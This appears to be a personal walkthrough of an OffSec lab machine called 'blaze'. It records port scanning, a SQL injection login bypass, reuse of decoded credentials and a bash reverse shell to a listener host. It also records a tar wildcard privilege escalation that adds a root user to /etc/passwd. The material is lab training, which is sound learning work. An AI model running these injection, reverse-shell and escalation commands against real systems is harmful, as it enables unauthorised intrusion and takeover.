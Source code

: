 ### Enumeration
```
IP=192.168.239.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,9090 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
- 9090
	- ssl/zeus-admin
- OS: Linux
### Foothold
- 80
	- ![[Pasted image 20240702134636.png]]
	- dirsearch -u http://$IP
		- `/login.php  /js`
	- /login.php
		- blaze login page
		- ![[Pasted image 20240702135138.png]]
		- added blaze.offsec to /etc/host
	- Login
		- tried admin:admin
		- admin':admin
			- Error in SQL syntax
		- admin' OR 1=1 -- -:admin
			- you have been blocked due to illegal blah blah
		- Used  /usr/share/seclists/Fuzzing/SQLi/MySQL-SQLi-Login-Bypass.fuzzdb.txt
			- `'OR '' = '` works
	- Logged in
		- james:Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=
			- echo 'Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=' | base64 -d
				- canttouchhhthiss@455152
		- cameron:dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy
		- ![[Pasted image 20240702143120.png]]
- 9090
	- ![[Pasted image 20240702135730.png]]
	- james:canttouchhhthiss@455152
		- Successful
	- ![[Pasted image 20240702143228.png]]
	- Use terminal to have /bin/bash access
	- Used `/bin/bash -i >& /dev/tcp/192.168.45.195/8000 0>&1`
### PE
#### Linux
- james
	- id
		- uid=1000(james) gid=1000(james) groups=1000(james)
	- sudo -l
		- `(ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *`
			- https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa
			- tar with wildcard exploit
			- The wildcard is replaced with file names. So we can execute commands
			- Ran following commands
				- `echo "" > '--checkpoint=1'`
				- `echo "" > '--checkpoint-action=exec=sh privesc.sh'`
				- `echo "echo 'root2:$1$3.pqoypX$fqH2guM82wDYRfKgvUAcK/:0:0:root:/root:/bin/bash' >> /etc/passwd" > privesc.sh`
				- 
				- ![[Pasted image 20240702144207.png]]
### Lessons Learned
- don't rely on sqlmap to do it
- try sqli payloads from seclists to see if you get a login